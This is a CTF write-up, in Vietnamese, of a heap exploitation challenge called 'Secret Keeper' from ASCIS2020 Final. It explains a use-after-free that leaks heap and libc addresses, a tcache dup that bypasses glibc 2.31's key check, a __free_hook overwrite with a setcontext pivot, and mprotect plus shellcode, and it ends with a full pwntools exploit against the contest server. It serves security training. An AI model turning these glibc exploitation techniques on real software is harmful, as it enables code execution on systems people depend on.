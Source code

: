 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "[ASCIS2020 Final] Secret Keeper"
subtitle: ""
summary: "Short writeup for a pwn challenge in ASCIS2020 Final"
authors: [pickaxe]
tags: []
categories: []
date: 2020-12-03T21:27:00+07:00
lastmod: 2020-12-03T21:27:00+07:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


### Tổng quan
Đây là một heap challenge, với seccomp chỉ cho phép các syscall open, read, write, mprotect, ... không cho phép các syscall exec*
```
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x0c 0xc000003e  if (A != ARCH_X86_64) goto 0014
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
0004: 0x15 0x00 0x09 0xffffffff  if (A != 0xffffffff) goto 0014
0005: 0x15 0x07 0x00 0x00000000  if (A == read) goto 0013
0006: 0x15 0x06 0x00 0x00000001  if (A == write) goto 0013
0007: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0013
0008: 0x15 0x04 0x00 0x00000003  if (A == close) goto 0013
0009: 0x15 0x03 0x00 0x0000000a  if (A == mprotect) goto 0013
0010: 0x15 0x02 0x00 0x0000000e  if (A == rt_sigprocmask) goto 0013
0011: 0x15 0x01 0x00 0x00000027  if (A == getpid) goto 0013
0012: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0014
0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
0014: 0x06 0x00 0x00 0x00000000  return KILL
```

Ban đầu, thực sự là mình khá ngại làm câu này, @midas hỗ trợ mình trong việc RE câu này. Trong lúc thi thì mình phát hiện ra lỗi Use-after-free ở tính năng encode và decode của chương trình
```c
(secret_to_encode->encoder)(secret_to_encode->buf, *&secret_to_encode->size, &dest_buf, &dest_size);
printf("Encode data: %s\n", dest_buf);
// dest_buf trỏ tới cùng buffer với secret_to_encode->buf
free(secret_to_encode->buf);
secret_to_encode->buf = dest_buf;
```

### Khai thác
Dùng lỗi ở trên, mình có thể dễ dàng leak được địa chỉ của heap và libc
```python
create_secret("AAAA\n", 0x10, "BBBBB\n")
encode_secret(1)
list_secret(1)
r.recvuntil("Your secret:\n")
heap = r.recvuntil("00 00").replace(" ", "")
heap = u64(heap.decode('hex')) - 0x2670
log.info("heap: %s" % hex(heap))

create_secret("AAAA\n", 0x600, "BBBBB\n", True)
create_secret("AAAA\n", 0x600, "BBBBB\n", True)
encode_secret(2)
list_secret(2)
r.recvuntil("Your secret:\n")
base_libc = r.recvuntil("00 00").replace(" ", "")
base_libc = u64(base_libc.decode('hex')) - 0x1ebbe0
```
Do không hiểu rõ tính năng edit nên mình quyết định sử dùng lỗi UAF này để gây ra tcache dup.
```python
create_secret("AAAA\n", 0x100, "BBBBB\n", True)

encode_secret(6)
encode_secret(6)
```
Libc 2.31 có kiểm tra tcache dup thông qua `key` trong tcache chunk, tuy nhiên do tính năng encode thay đổi toàn bộ buffer nên overwrite luôn cả `key` nên mình có thể bypass cái check đó. Dùng tcache dup mình có thể overwrite `free_hook` từ đó kiểm soát được `rip`.
Tới đây, mình sử dụng gadget này trong libc
```
gadget = libc + 0x154930
mov     rdx, [rdi+8]
mov     [rsp], rax
call    qword ptr [rdx+0x20]
```
Do overwrite `free_hook` nên mình có thể kiểm soát `rdi` (tham số thứ nhất của hàm free), từ đó mình kiểm soát được `rdx` và tiếp tục kiểm soát được `rip`. Trỏ `rip` tới gadget trong `setcontext`
```
base_libc + 0x580DD
mov     rsp, [rdx+0A0h]
mov     rbx, [rdx+80h]
mov     rbp, [rdx+78h]
mov     r12, [rdx+48h]
mov     r13, [rdx+50h]
mov     r14, [rdx+58h]
mov     r15, [rdx+60h]
test    dword ptr fs:48h, 2
jz      loc_581C6

loc_581C6:
mov     rcx, [rdx+0A8h]
push    rcx
mov     rsi, [rdx+70h]
mov     rdi, [rdx+68h]
mov     rcx, [rdx+98h]
mov     r8, [rdx+28h]
mov     r9, [rdx+30h]
mov     rdx, [rdx+88h]
xor     eax, eax
retn
```
Tới đây, do kiểm soát `rdx` nên mình có thể kiểm soát rất nhiều thanh ghi khác trong đó có cả `rsp` rất thuận tiện cho việc ROP. Gọi `mprotect` để giúp heap có thêm quyền execute sau đó nhảy tới shellcode open read write đã đặt trên heap là mình có được flag.

Full exploit
```python
from pwn import *

def create_secret(name, size, payload, reuse=False):
    r.sendlineafter(">> ", "1")
    if reuse:
        r.sendline("0")
    r.sendafter("Name: ", name)
    r.sendlineafter("size:", str(size))
    r.send(payload)
    r.sendlineafter("3. None\n", "1")

def encode_secret(index):
    r.sendlineafter(">> ", "5")
    r.sendlineafter(">> ", str(index))

def list_secret(index):
    r.sendlineafter(">> ", "3")
    r.sendlineafter(">> ", str(index))

def delete_secret(index):
        r.sendlineafter(">> ", "4")
        r.sendlineafter(">> ", str(index))

if (sys.argv[1] == "local"):
    r = process("./secret_keeper")
else:
    r = remote("35.240.209.133", 1337)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
free_hook_off = libc.symbols["__free_hook"]
mprotect_off = libc.symbols["mprotect"]

create_secret("AAAA\n", 0x10, "BBBBB\n")
encode_secret(1)
list_secret(1)
r.recvuntil("Your secret:\n")
heap = r.recvuntil("00 00").replace(" ", "")
#print heap
heap = u64(heap.decode('hex')) - 0x2670
log.info("heap: %s" % hex(heap))

#pause()
create_secret("AAAA\n", 0x600, "BBBBB\n", True)
create_secret("AAAA\n", 0x600, "BBBBB\n", True)
encode_secret(2)
list_secret(2)

r.recvuntil("Your secret:\n")
base_libc = r.recvuntil("00 00").replace(" ", "")
base_libc = u64(base_libc.decode('hex')) - 0x1ebbe0
log.info("base_libc: %s" % hex(base_libc))
free_hook = base_libc + free_hook_off
log.info("free_hook: %s" % hex(free_hook))
mprotect = base_libc + mprotect_off

create_secret("TTTT\n", 0x100, "BBBBB\n", True)
create_secret("TTTT\n", 0x100, "BBBBB\n", True)
encode_secret(4)
encode_secret(5)

create_secret("AAAA\n", 0x100, "BBBBB\n", True)

encode_secret(6)
encode_secret(6)

gadget = base_libc + 0x154930
setcontext = base_libc + 0x580DD

create_secret("CCCC\n", 0x100, p64(free_hook) + "\n", True)
payload = "A"*8 + p64(heap+0x1fb0) + "B"*0x10 + p64(setcontext)

payload += "A"*0x40 + p64(heap-0x40) + p64(0xf000)
payload += "A"*0x10 + p64(7) + "A"*0x10 + p64(heap+0x3150) + p64(mprotect)

create_secret("DDDD\n", 0x100, payload + "\n", True)
create_secret("CCCC\n", 0x100, p64(gadget) + "\n", True)

context.arch = "amd64"
shellcode = shellcraft.open("/opt/flag/flag.txt", 0, 0)
shellcode += shellcraft.read("rax", "rsp", 100)
shellcode += shellcraft.write(1, "rsp", 100)
shellcode = asm(shellcode)

payload = p64(heap + 0x3150 + 0x8) + shellcode
create_secret("MMMM\n", 0x100, payload + "\n", True)

#pause()
delete_secret(8)

r.interactive()

```

Mình thực sự rất vui vì đã giải được câu này trong thời gian cuộc thi.

Cảm ơn anh @Peter vì những heap challenge rất hay, cảm ơn BTC vì một kỳ thi thú vị.

Cảm ơn anh @Biên, writeup của anh về bài ở vòng loại đã giúp em rất nhiều trong quá trình làm bài này.
